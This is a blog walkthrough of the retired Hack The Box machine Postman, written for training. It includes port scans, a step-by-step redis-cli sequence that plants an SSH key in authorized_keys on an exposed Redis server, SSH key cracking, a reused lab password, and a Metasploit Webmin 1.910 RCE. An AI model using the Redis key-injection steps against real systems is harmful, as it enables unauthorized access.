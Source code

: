 ```yaml
---
layout: post
title: "Postman: Hack The Box Walkthrough"
date: 2020-03-14 16:50:38 +0000
last_modified_at: 2020-03-14 16:50:38 +0000
category: Walkthrough
tags: ["Hack The Box", Postman, retired, Linux, Easy]
comments: true
image:
  feature: postman-htb-walkthrough.jpg
  credit: ninita_7 / Pixabay
  creditlink: https://pixabay.com/photos/post-letter-mail-box-letter-boxes-2828146/
---
```


This post documents the complete walkthrough of Postman, a retired vulnerable [VM][1] created by [TheCyberGeek][2], and hosted at [Hack The Box][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post
{:.no_toc}

* TOC
{:toc}

## Background

Postman is a retired vulnerable VM from Hack The Box.

## Information Gathering

Let's start with a `masscan` probe to establish the open ports in the host.

```
# masscan -e tun0 -p1-65535,U:1-65535 10.10.10.160 --rate=1000

Starting masscan 1.0.5 (http://bit.ly/14GZzcT) at 2019-11-03 13:51:36 GMT
 -- forced options: -sS -Pn -n --randomize-hosts -v --send-eth
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 10000/tcp on 10.10.10.160                                 
Discovered open port 6379/tcp on 10.10.10.160                                  
Discovered open port 80/tcp on 10.10.10.160                                    
Discovered open port 22/tcp on 10.10.10.160
```

Interesting list of open ports. Let's do one better with `nmap` scanning the discovered ports to establish their services.

```
# nmap -n -v -Pn -p22,80,6379,10000 -A --reason -oN nmap.txt 10.10.10.160
...
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: E234E3E8040EFB1ACD7028330A956EBF
| http-methods:
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   syn-ack ttl 63 Redis key-value store 4.0.9
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.910 (Webmin httpd)
|_http-favicon: Unknown favicon MD5: 91549383E709F4F1DD6C8DAB07890301
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

Hmm. Other than the usual `ssh` and `http` services, we also have Redis and MiniServ running. Anyhow, this is what the `http` site looks like.


{% include image.html image_alt="1816123a.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/1816123a.png" %}


### Redis SSH Backdoor

Anyway since the Redis service is available, let's check and see what we can glean from there.


{% include image.html image_alt="28521bc8.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/28521bc8.png" %}


Interesting. The creator seems to be suggesting that there's a `redis` SSH account and the way to get a foothold is to dump a SSH public key we control to `authorized_keys`.

That should be easy.

1. `ssh-keygen -f redis`
2. `echo -ne "\n\n" > public; cat redis.pub >> public`
3. `redis-cli -h 10.10.10.160 SLAVEOF NO ONE`
3. `cat public | redis-cli -h 10.10.10.160 -x set pub`
4. `redis-cli -h 10.10.10.160 CONFIG SET dbfilename authorized_keys`
5. `redis-cli -h 10.10.10.160 SAVE`

I've incorporated the above steps into a script to save a bit of time because many HTB players are chasing after a Metasploit exploit that somehow didn't work as expected.


{% include image.html image_alt="b84c9e83.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/b84c9e83.png" %}


### Matt's Backup SSH Key

During enumeration of `redis`'s account, I noticed that there is another account with UID 1000 (Matt). That would mean that the file `user.txt` is in Matt's home directory.


{% include image.html image_alt="6c8021b8.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/6c8021b8.png" %}


Look what we found!


{% include image.html image_alt="397bd523.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/397bd523.png" %}


Matt is careless to leave a backup of his password-protected SSH private key around.


{% include image.html image_alt="52c92cfb.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/52c92cfb.png" %}


Something else is up. Notice that Matt cannot login via SSH.


{% include image.html image_alt="cb6018ab.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/cb6018ab.png" %}


What good is a password-protected private key if we can't login via SSH? Well, we can crack the key's password and see what it brings us.


{% include image.html image_alt="657cca71.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/657cca71.png" %}


And guess what. We can `su` as Matt with that password.


{% include image.html image_alt="b73a8c9e.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/b73a8c9e.png" %}


There you have it. The file `user.txt` is indeed in Matt's home directory.


{% include image.html image_alt="5d53b140.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/5d53b140.png" %}


## Privilege Escalation

During enumeration of Matt's account, I noticed the presence of a file in `/etc/webmin/Matt.acl`, which sort of gave me an idea—maybe Matt is able to log in to the Webmin using the same credential (`Matt:computer2008`)?


{% include image.html image_alt="5eea3d2f.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/5eea3d2f.png" %}


No shit.

### Webmin 1.910 - 'Package Updates' Remote Command Execution

Long story short. As much as I wanted to avoid Metasploit, this is one exploit that executes better with it.


{% include image.html image_alt="a5c6060b.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/a5c6060b.png" %}


This is way too easy.


{% include image.html image_alt="9dfc4cec.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/9dfc4cec.png" %}


### Getting `root.txt`


{% include image.html image_alt="f1552c46.png" image_src="/b631a3a0-f4e2-49f3-ba97-668d34c6e0b4/f1552c46.png" %}


:dancer:

[1]: https://www.hackthebox.eu/home/machines/profile/215
[2]: https://www.hackthebox.eu/home/users/profile/114053
[3]: https://www.hackthebox.eu/
